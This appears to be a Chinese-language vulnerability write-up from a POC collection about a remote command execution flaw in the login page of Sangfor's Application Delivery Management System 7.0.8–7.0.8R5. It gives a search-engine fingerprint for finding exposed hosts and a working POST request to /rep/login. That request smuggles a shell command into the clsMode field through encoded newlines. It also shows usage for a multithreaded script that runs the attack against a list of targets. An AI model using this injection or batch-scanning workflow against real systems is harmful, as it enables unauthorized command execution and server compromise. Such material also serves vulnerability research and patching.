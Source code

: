 # 深信服 应用交付管理系统 login 远程命令执行漏洞

## 漏洞描述

深信服 应用交付管理系统 login 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

深信服 应用交付管理系统 7.0.8-7.0.8R5

## 网络测绘

fid="iaytNA57019/kADk8Nev7g=="

## 漏洞复现

登陆页面

![img](https://peiqi.wgpsec.org/assets/img/1675307887742-7f1d91ab-0fc3-4b09-b434-70466ec13871.d5bf6012.png)

验证POC

```plain
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```



![img](https://peiqi.wgpsec.org/assets/img/1675307928621-8722e4f7-ddd8-44ee-9010-4f9189a12081.ae1c4259.png)

## 脚本使用

```
python poc.py -f 1.txt -t 50
```

```
  -f FILEPATH, --filepath FILEPATH
                        包含目标列表的txt文件路径
  -t THREADS, --threads THREADS
                        线程数，默认为10
```

txt格式如下：

![image-20230813111759108](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230813111840487-1133188023.png)